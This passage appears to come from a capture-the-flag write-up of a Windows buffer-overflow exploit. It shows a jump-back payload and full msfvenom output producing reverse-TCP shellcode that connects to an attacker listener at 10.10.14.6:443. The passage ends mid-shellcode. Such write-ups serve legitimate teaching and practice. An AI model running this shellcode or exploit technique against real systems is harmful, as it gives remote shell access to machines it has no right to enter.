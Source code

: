 I'll update the payload, replacing the INTs with these two bytes to jump
back to the start of the buffer. I'll also replace "A" with INTs so that
it breaks when it gets there:



    payload = b"\xCC"*66 + p32(0x7190239f) + b"\xeb\xb8"



On running this, it breaks at the top of that buffer:

![](/img/image-20220203220612192.png)

#### Still Need More Space

The goal here is to jump to some Windows shellcode that will create TCP
connection back to me, and provide a shell. Unfortunately, while 66
bytes is a lot more than 10, it's still not near enough to do that. For
example, `msfvenom` will create this shellcode at 351 bytes:



    oxdf@hacky$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -b "\x00" -f python
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of python file: 1712 bytes
    buf =  b""
    buf += b"\xda\xce\xd9\x74\x24\xf4\x5b\xbf\xbe\xd9\x55\xca\x29"
    buf += b"\xc9\xb1\x52\x31\x7b\x17\x03\x7b\x17\x83\x7d\xdd\xb7"
    buf += b"\x3f\x7d\x36\xb5\xc0\x7d\xc7\xda\x49\x98\xf6\xda\x2e"
    buf += b"\xe9\xa9\xea\x25\xbf\x45\x80\x68\x2b\xdd\xe4\xa4\x5c"
    buf += b"\x56\x42\x93\x53\x67\xff\xe7\xf2\xeb\x02\x34\xd4\xd2"
    buf += b"\xcc\x49\x15\x12\x30\xa3\x47\xcb\x3e\x16\x77\x78\x0a"
    buf += b"\xab\xfc\x32\x9a\xab\xe1\x83\x9d\x9a\xb4\x98\xc7\x3c"
    buf += b"\x37\x4c\x7c\x75\x2f\x91\xb9\xcf\xc4\x61\x35\xce\x0c"
    buf += b"\xb8\xb6\x7d\x71\x74\x45\x7f\xb6\xb3\xb6\x0a\xce\xc7"
    buf += b"\x4b\x0d\x15\xb5\x97\x98\x8d\x1d\x53\x3a\x69\x9f\xb0"
    buf += b"\xdd\xfa\x93\x7d\xa9\xa4\xb7\x80\x7e\xdf\xcc\x09\x81"
    buf += b"\x0f\x45\x49\xa6\x8b\x0d\x09\xc7\x8a\xeb\xfc\xf8\xcc"
    buf += b"\x53\xa0\x5c\x87\x7e\xb5\xec\xca\x16\x7a\xdd\xf4\xe6"
    buf += b"\x14\x56\x87\xd4\xbb\xcc\x0f\x55\x33\xcb\xc8\x9a\x6e"
    buf += b"\xab\x46\x65\x91\xcc\x4f\xa2\xc5\x9c\xe7\x03\x66\x77"
    buf += b"\xf7\xac\xb3\xd8\xa7\x02\x6c\x99\x17\xe3\xdc\x71\x7d"
    buf += b"\xec\x03\x61\x7e\x26\x2c\x08\x85\xa1\x59\xc7\x8b\x37"
    buf += b"\x36\xd5\x93\x36\x7d\x50\x75\x52\x91\x35\x2e\xcb\x08"
    buf += b"\x1c\xa4\x6a\xd4\x8a\xc1\xad\x5e\x39\x36\x63\x97\x34"
    buf += b"\x24\x14\x57\x03\x16\xb3\x68\xb9\x3e\x5f\xfa\x26\xbe"
    buf += b"\x16\xe7\xf0\xe9\x7f\xd9\x08\x7f\x92\x40\xa3\x9d\x6f"
    buf += b"\x14\x8c\x25\xb4\xe5\x13\xa4\x39\x51\x30\xb6\x87\x5a"
    buf += b"\x7c\xe2\x57\x0d\x2a\x5c\x1e\xe7\x9c\x36\xc8\x54\x77"